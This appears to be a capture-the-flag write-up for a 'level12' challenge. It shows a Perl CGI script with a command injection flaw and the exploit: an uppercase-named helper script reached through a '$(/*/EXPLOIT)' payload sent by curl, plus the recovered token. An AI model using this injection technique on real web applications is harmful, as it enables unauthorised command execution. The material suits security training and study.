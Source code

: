 - We have a perl script:
```bash
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```


----

- Whatever does this code it's not much important since we can see that the first parameter "x" we give to the script, it will be part of a exectuded command:
```bash
@output = `egrep "^$xx" /tmp/xd 2>&1`;

We can make a script that execute the getflag command and put it in /tmp/exploit. We will rename it EXPLOIT since the parameters are put into MAJ characters. => /tmp/EXPLOIT:

---
#!/bin/bash

getflag > /tmp/flag
---
The problem is that tmp will also get put into MAJ so the execution of my command will fail.
The trick here is to make a command that will search everywhere in the filesystem the file EXPLOIT to execute it. So we don't have to provide the tmp directory in parameter.

Payload:
curl http://localhost:4646/level12.pl?x='$(/*/EXPLOIT)' ; cat flag

Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
